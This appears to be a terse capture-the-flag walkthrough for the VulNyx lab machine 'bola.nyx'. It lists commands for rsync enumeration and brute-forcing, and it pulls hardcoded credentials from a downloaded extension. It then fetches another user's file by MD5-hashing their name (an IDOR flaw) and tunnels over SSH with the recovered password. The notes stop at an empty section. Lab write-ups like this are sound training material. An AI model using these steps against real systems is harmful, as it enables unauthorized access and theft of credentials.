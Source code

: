 ___

```bash
export IP=192.168.0.24
./nmap.sh
```

/etc/hosts --> bola.nyx

# 873 Rsync

https://github.com/VulNyx/Arsenal/tree/main/rsync-brute

```bash
./rsync-brute -t bola.nyx -p 873 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```bash
rsync -av --list-only rsync://192.168.0.24/extensions
```

```bash
rsync -avz rsync://bola.nyx/extensions/password_manager.zip .
```

```bash
cat background.js
username: "jackie0x17@nyx.com", password: "sbIJ0x9g{C3`"
```

# 80

```bash
gobuster dir -u http://bola.nyx/ -w /home/dani/Documents/lists/content.txt -t 200
```

http://bola.nyx/.well-known/openid-configuration

usernames
```
d4t4s3c
jackie0x17
ct0l4
```


```bash
echo -n "d4t4s3c"| md5sum
97035ded598faa2ce8ff63f7f9dd3b70
```

http://bola.nyx/download.php?file_name=97035ded598faa2ce8ff63f7f9dd3b70.pdf

admin:VulNyxtestinglogin123

# 22

```bash
ssh -L 9000:127.0.0.1:9000 d4t4s3c@bola.nyx
VulNyxtestinglogin123
```

# WDSL








